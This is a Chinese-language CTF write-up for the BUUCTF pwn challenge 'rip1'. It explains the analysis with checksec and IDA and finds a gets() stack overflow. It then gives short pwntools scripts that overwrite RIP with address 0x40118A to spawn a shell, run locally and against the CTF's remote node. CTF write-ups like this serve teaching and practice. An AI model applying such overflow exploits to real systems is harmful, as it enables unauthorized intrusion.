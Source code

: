 ```yaml
---
title: rip1
author: Stan
date: 2020-09-17 19:00:33 +0800
categories: [BUUCTF,BUUCTF-Pwn]
tags: [Pwn]
---
```


## 过程

先`checksec`，发现保护都没开

![2020-09-17_15-09-45](/assets/img/posts/2020-09-17_15-09-45.png)

打开`IDA64`

搜索字符串，发现**/bin/sh**

查交叉引用，最后发现这里![2020-09-17_19-15-52](/assets/img/posts/2020-09-17_19-15-52.png)

system也有了，根据题目名字，只要栈溢出，rip覆盖成40118A就行了

![image-20200917192213258](/assets/img/posts/image-20200917192213258.png)

很明显gets函数没有限制输入，存在溢出点

![image-20200917192549256](/assets/img/posts/image-20200917192549256.png)

之后查看栈，发现只要覆盖15+8就可以了

## Exploit

````python
from pwn import *

a=process('./pwn1')

a.recvuntil("please input")

a.sendline(b"a" * 23 + p64(0x40118A))

a.interactive()
````

这是本地调试，非常成功，但是跑remote会无反应

怀疑是服务器文件和下发的文件不同，需要猜测代码

先nc过去查看程序逻辑

![image-20200917194052156](/assets/img/posts/image-20200917194052156.png)

应该就是把puts和gets的位置反了一下，调整一下exp

````python
from pwn import *

a=remote('node3.buuoj.cn',27250)

a.sendline(b"a" * 23 + p64(0x40118A))

a.interactive()
````

因为顺序反了，所以直接send就行

![image-20200917194310546](/assets/img/posts/image-20200917194310546.png)

得到flag
